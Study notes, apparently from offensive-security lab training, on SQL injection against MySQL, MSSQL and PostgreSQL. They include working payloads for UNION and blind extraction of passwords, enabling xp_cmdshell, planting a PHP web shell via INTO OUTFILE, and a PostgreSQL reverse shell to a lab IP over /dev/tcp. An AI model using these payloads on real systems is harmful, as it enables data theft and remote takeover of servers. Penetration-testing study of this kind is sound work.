

### SQL Injection

Some MySQL commands

Connecting to a mysql server on port 3306.

`mysql -u root -p'root' -h 192.168.50.16 -P 3306 --skip-ssl-verify-server-cert`

If we get `ERROR 2026 (HY000) TLS/SSL` we can append `--skip-ssl` at the end to get the connection.

The `select version();` command will give you the version once you get connected to the DB.

The `select system_user();` command will show you the current username and hostname for the current connection.

The `show databases;` command will tell you which DBs are on the server.

`SELECT user, authentication_string FROM mysql.user WHERE user = 'offsec';` is a way to get the authentication string from the mysql.user table.

Some MSSQL commands

Connecting to an MSSQL server.  More on the `-windows-auth` bit later.

`impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth`

For version info, `SELECT @@version;`

The `SELECT name FROM sys.databases;` will give you the names of all the databases on the server.  For MSSQL the following are default on all systems.

```
master
tempdb
model
msdb
```

The `select * from offsec.dbo.users;` will pull all `users` from the `dbo` table in the `offsec` database.

SQL Injection takes advantage of weak input sanitization in order to run crafted SQL statements on a webpage and get back un-intended results that are supposed to be hidden.  

A good cheat sheet resource  

portswigger.net/web-security/sqlinjection/cheat-sheet  


Entry in a Search Field: `jeremy' or 1=1#` might return more than expected.  

The ' at the end of jeremy    

The `or 1=1` will always return true or equal everything in an SQL perspective  

The # is a terminator which will end the sequel query.  There are some others depending on the version of SQL running.  

`offsec' OR 1=1 -- //` - here the `-- //` is the closing.  There are others likely found online.

#### SQL Injection Error

This could be in a user sign in page.  We've tested and verified that injection is possible.  Now we can go about getting info.

`' OR 1=1 in (SELECT * FROM users) -- //` - With this, we put our SQL statement inside the ( ) and you'll get the information returned in part of an error within the app.  Sometimes you may get an error within the output and have to go digging into what the error means.

`' or 1=1 in (select password from users where username = 'admin') -- //` - This statement within the ( ) will give us the password of the user with the username of admin.

#### SQL Injection UNION

This allows us to grab information from other tables that we should not have access to.  We have to select the same number of columns as the original query.    

In order to find out how many columns are needed you try this:  

```
jeremy' union select null#
jeremy' union select null,null#
jeremy' union select null,null,null#
```

Do this until you get a return with information and that null is your entry point

You can also use `' order by 1-- //` and increase the number by 1 each time until you get an error kicked back.

Then, we can check which columns show by using `%' UNION SELECT 'a1', 'a2', 'a3', 'a4', 'a5' -- //` and getting this output.



Notice how the bottom has the `a2`, `a3`, etc?  These are the columns that normally show up.  Now we know how many columns and where each is showing information.

From here, once you know where you're going you can do something like the following (different number and closing):  

`jeremy' union select null,null,version()#`  

This should spit out the version of the database  

`jeremy' union select null,null,table_name from information_schema.tables#`  

This spits out the names of all the tables in the database.  You can also switch table for columns:  

`jeremy' union select null,null,column_name from information_schema.columns#`  

You also have other things like:

`' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //`

`' UNION SELECT null, username, password, description, null FROM users -- //`

Another constraint is the data type must match so you may have to try some different things to get integers to integers and strings to strings  

`null(int)` or putting a number in a column, `1`  


#### Blind SQL Injection

It's called "blind" because you don't see the output returned like you would with a union statement.  You have to rely on different feedback in order to pull the information you want.  

If you can find an entry point you can extract information by using a series of Boolean questions in order to enumerate the information desired.

You can enumerate user's using this method.  If you have a URL that has the username in the URL, we can test to see if other username's exist in two ways.

`http://192.168.50.16/blindsqli.php?user=offsec' AND 1=1 -- //` - This is boolean based.  This will only return values is both parts are true, the user and 1=1.  Since 1 always equals 1 the only thing to change will be the username.

`http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //` - This approach is time based.  

Search w3schools.com for SUBSTRING() Function within SQL to help craft your query to enumerate the information you want.  

`SELECT SUBSTRING(string, start, length) AS ExtractString;<injectable entry point>' and substring('a', 1, 1) = 'a'#`  

This will check to see if the first character is an `a` or not.  You'll get a happy return if it is, and a log in error page if not because of the `AND` SQL statement.  

We want to change the first part in the substring argument to whatever it is we are wanting to try and enumerate  

`<injectable entry point' and substring((select version()), 1, 1) = 'a'#`  

This will actually check if the first character of the version matches the end number.  

Make sure you put the `select version()` in their own brackets to have it resolve first.  So this will grab the version number of the database and then run the check on it.  

From here, you can use Burp's Repeater in order to speed this up.  You'll just use the last part of the check (the `'a'`) and have burp run through the iterations of things that may take a longer time.  

`<injectable entry point' and substring((select password from injection0x02 where username = 'colindy'), 1, 1) = 'a'#`  

This will `select` the `password` `from` the `injection0x02` table `where` the `username` is `'colindy'` and check to see if the first character is `a`.  

#### Manual Code Execution

In MSSQL, the `xp_cmdshell` takes a string a passes it to a command shell to execute it.  In order to use it, we will need to enable it.

```
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

You should see the advanced options and xp_cmdshell both change from 0 to 1

#### Other useful SQL items

`'+union+select+null,null,null,null,'<?php+system($_GET["cmd"]);+?>',null+into+outfile+'/var/www/html/rce.php'#` - Here I was able to create a php page within a SQL `union select` statement and send it to an `outfile` to the correct folder and then utilize that web page to run different commands.

`http://forestsave.lab/rce.php?cmd=cat+../flag.txt` - was one such command.  I had to use the `+` in the space here instead of `%20`.  This fked with me.

`1';DROP+TABLE+IF+EXISTS+cmd_out;CREATE+TABLE+cmd_out(d+text);COPY+cmd_out+FROM+PROGRAM+'/bin/bash+-c+"bash+-i+>+/dev/tcp/192.168.45.190/4444+0<%261+2>%261"'--` - This is a reverse shell for postgresql

#### SQLmap   - read more on this, this is a very useful tool.  

While this tool is very useful, it is very VERY noisy.  For this reason, this tool should NOT be a go to for initial scanning nor should it be used in any engagement where stealth is a consideration.

`sqlmap -r rep.txt`  

This will start a simple sqlmap scan on a packet grabbed from Burp Suite and sent to repeater.  Copy the whole packet and past it into a text file  

`--level=2`  This is needed for cookies  

`--dump`  This dumps the database  

`-T <tablename>`  This will run the command just on the table listed  